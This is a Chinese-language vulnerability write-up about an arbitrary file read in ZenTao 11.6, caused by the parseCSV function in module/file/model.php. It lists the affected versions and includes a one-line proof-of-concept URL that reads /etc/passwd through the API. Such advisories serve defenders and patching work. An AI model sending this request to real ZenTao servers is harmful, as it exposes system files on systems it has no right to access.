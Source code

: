 ```yaml
---
title: 禅道 11.6 任意文件读取
id: zhfly3363
---
```


# 禅道 11.6 任意文件读取

## 一、漏洞简介

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。
厂商官网：https://www.zentao.net/
而此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响

## 二、漏洞影响

禅道 11.6

禅道开源版 9版本

## 三、复现过程

漏洞代码位于module/file/model.php中的parseCSV函数

![image](../img/daa21c094fde628f660df508f07073d0.png)

这里通过上面的思路同样可以对fileName进行赋值，最终返回读取的文件数据
漏洞poc为：

```
http://www.0-sec.org/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd 
```

![image](../img/74df1896af46127536969908bea5a09c.png)